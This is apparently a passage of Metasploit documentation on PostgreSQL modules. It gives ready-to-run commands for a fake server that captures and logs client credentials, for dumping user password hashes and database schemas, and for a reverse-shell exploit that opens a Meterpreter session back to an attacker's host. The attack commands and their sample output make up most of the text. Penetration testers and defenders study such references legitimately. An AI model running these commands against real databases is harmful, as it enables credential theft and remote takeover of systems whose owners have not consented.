 ### PostgreSQL Capture Server

Captures and log PostgreSQL credentials:

```
use auxiliary/server/capture/postgresql
run
```

For example, if a client connects with:

```
psql postgres://postgres:mysecretpassword@localhost:5432
```

Metasploit's output will be:

```msf
msf6 auxiliary(server/capture/postgresql) >
[*] Started service listener on 0.0.0.0:5432
[*] Server started.
[+] PostgreSQL LOGIN 127.0.0.1:60406 postgres / mysecretpassword / postgres
```

### PostgreSQL Dumping

User and hash dump:

```
use auxiliary/scanner/postgres/postgres_hashdump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13/database_name
```

Schema dump:

```
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13 ignored_databases=template1,template0,postgres
```

### PostgreSQL Querying

```
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
```

### PostgreSQL Reverse Shell

```
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64'
```
